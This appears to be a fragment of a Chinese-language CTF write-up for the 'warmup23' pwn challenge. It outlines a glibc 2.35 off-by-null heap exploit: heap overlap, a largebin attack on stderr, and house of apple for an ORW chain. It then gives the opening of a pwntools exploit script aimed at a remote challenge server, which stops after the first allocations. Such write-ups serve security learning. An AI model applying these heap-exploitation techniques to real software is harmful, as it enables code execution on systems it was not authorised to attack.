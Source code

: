 ```python

```







### warmup23

glibc 2.35 下的off by null，和glibc 2.31下的off by null 利用手法相同。

参考链接：http://tttang.com/archive/1614/#toc__6

构造出堆块重叠后进行largebin attack，修改stderr为fake file。然后利用off by null 修改top chunk size，申请一个大的chunk，触发malloc_assert ，利用house of apple  执行orw。

```python
from pwn import*
context.arch='amd64'
context.log_level='debug'
p=remote("120.24.69.11",12700)
#p=process('./warmup')
libc=ELF('./libc.so.6')
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
    gdb.attach(p,"dir ~/glibc/glibc-2.35/")
    pause()


def menu(choice):
    ru(">> ")
    sl(str(choice))


def add(size,content):
    menu(1)
    ru("Size:")
    sl(str(size))
    ru("Note:")
    s(content)

def show(index):
    menu(2)
    ru("Index:")
    sl(str(index))
    ru("Note:")

def delete(index):
    menu(3)
    ru("Index:")
    sl(str(index))

add(0x418, "A"*0x100) #0 A = P->fd
add(0xe8,"barrier") #1 barrier
```